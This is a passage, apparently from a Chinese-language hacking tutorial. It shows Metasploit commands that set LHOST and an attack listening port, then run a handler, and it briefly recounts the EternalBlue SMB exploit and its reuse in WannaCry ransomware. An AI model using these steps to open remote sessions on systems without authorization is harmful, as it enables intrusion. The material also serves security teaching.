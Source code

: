 ```
set LHOST xxx.xx.xxx.x
```

设置listen攻击端口

```
set LPORT 12345
```





运行

```
run
```



然后help查看具体功能

```
help
```





永恒之蓝漏洞



永恒之蓝是指2017年4月14日，黑客团体Shadow Brokers（影子经纪人）公布一大批网络攻击工具，其中就包括“永恒之蓝”工具，利用Windows系统的SMB漏洞获取系统最高权限。5月12日，不法分子改造“永恒之蓝”制作了wannacry勒索病毒，被勒索支付高额赎金才能解密恢复文件



wannacry：缓冲区溢出漏洞









